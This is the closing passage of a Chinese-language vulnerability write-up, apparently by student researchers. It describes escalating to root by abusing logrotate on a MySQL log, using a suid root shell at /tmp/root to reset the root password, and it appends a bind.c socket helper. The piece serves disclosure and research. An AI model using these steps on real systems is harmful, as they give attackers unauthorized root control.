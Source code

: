 `/tmp/root`是我们的第三个程序，也就是我们的 suid root shell。以上内容完成之后，我们需要填充 `/var/log/mysql/rootme.log`文件再次触发 logrotate。现在，我们的suid 二进制文件有了 root 权限，可以使用这种方式：`/tmp/root passwd root`修改 root 密码。现在，我们修改了 root 用户的密码，获得了系统所有权。

POC视频地址：[https://vimeo.com/410961877](https://vimeo.com/410961877)



## 关于研究人员

我们是一群在学校工作的学生。这项研究是由朱利安·贝尔、塞巴斯蒂安·尼夫、拉尔斯·伯hop和维克多·施吕特进行的。这学期，我们在柏林工业大学学习，并在学校做兼职。在假期，我们有更多的可用时间，这使我们能够做一些较大的项目，如这个。最后但并非最不重要的是，我们在的空闲时间与我们的朋友从研究小组计算机安全(AG Rechnersicherheit)一起参加了 CTF 竞赛。

## 附录

### <a class="reference-link" name="bind.c"></a>bind.c

```
#include &lt;stdio.h&gt;
#include &lt;unistd.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
#include &lt;sys/types.h&gt; 
#include &lt;sys/socket.h&gt;
#include &lt;netinet/in.h&gt;

void error(const char *msg) `{`
    perror(msg);
    exit(1);
`}`

int main(int argc, char **argv) `{`
     int sockfd, newsockfd, portno, pid;
     socklen_t clilen;
     struct sockaddr_in serv_addr, cli_addr;

     if (argc &lt; 2) `{`
         fprintf(stderr,"ERROR, no port providedn");
         exit(1);
     `}`
     sockfd = socket(AF_INET, SOCK_STREAM, 0);

     if (sockfd &lt; 0) 
        error("ERROR opening socket");

     bzero((char *) &amp;serv_addr, sizeof(serv_addr));
     portno = atoi(argv[1]);
     serv_addr.sin_family = AF_INET;
     serv_addr.sin_addr.s_addr = INADDR_ANY;
     serv_addr.sin_port = htons(portno);
     if (bind(sockfd, (struct sockaddr *) &amp;serv_addr, sizeof(serv_addr)) &lt; 0) 
         error("ERROR on binding");
     listen(sockfd,5);
     accept(sockfd, (struct sockaddr *) &amp;cli_addr, &amp;clilen);
     return 0;
`}`
```
